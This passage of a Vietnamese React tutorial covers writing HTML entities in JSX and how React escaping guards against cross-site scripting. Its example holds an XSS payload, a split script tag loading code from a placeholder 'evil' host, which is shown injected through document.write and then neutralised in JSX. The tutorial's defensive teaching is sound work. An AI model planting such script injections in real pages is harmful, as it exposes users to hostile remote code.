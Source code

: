     ```jsx
    <h2>
     {"Thông tin thêm \u00bb"}
    </h2>
    ```
    
- Để cho tiện, bạn có thể định nghĩa 1 const ở đâu đó trên đầu module của bạn cùng với bất kỳ khoảng trắng nào
    
    ```jsx
    const RAQUO = ' \u00bb'; 
    ```
    
- Sau đó, cứ dùng hằng số này ở bất cứ đâu bạn cần
    
    ```jsx
    <h2>
     {"Thông tin thêm" + RAQUO}
    </h2>
    <h2>
     {"Thông tin thêm"}{RAQUO}
    </h2>
    ```
    

## Anti-XSS

- Chắc bạn đang thắc mắc tại sao phải “vòng vo” để dùng HTML?
- Có 1 lý do chính đáng hơn hẳn những cái bất tiện kia: Bạn cần chống lại cross-site scripting -XSS)
- React sẽ **thoát** hết tất cả các chuỗi để ngăn chặn 1 loại tấn công XSS. Khi bạn bắt người dùng nhập vào input, và họ nhập vào 1 chuỗi `độc hại` , React sẽ bảo vệ bạn
    
    ```jsx
    const firstname = 'John<scr'+'ipt src="https://evil/co.js"></scr'+'ipt>';
    ```
    
- Trong 1 số trường hợp, bạn có thể ghi vào DOM
    
    ```jsx
    document.write(firstname);
    ```
    
- Thế là xong, vì trang web sẽ hiển thị “John”, nhưng đoạn `script` lại tải 1 đoạn code **đen tối** từ một trang web thứ 3, có thể là của hacker
- Điều này dẫn đến nguy hiểm cho ứng dụng và người dùng có thể không tin tưởng ứng dụng của bạn nữa
- React sẽ tự động bảo vệ bạn khỏi những trường hợp như thế này. React sẽ “thoát” nội dung của `firstname` khi bạn làm như sau
    
    ```jsx
    function Example() {
     const firstname = 'John<scr' + 'ipt src="https://evil/co.js"></scr' + 'ipt>';
     return <h2>Xin chào {firstname}!</h2>;
    }
    ```
    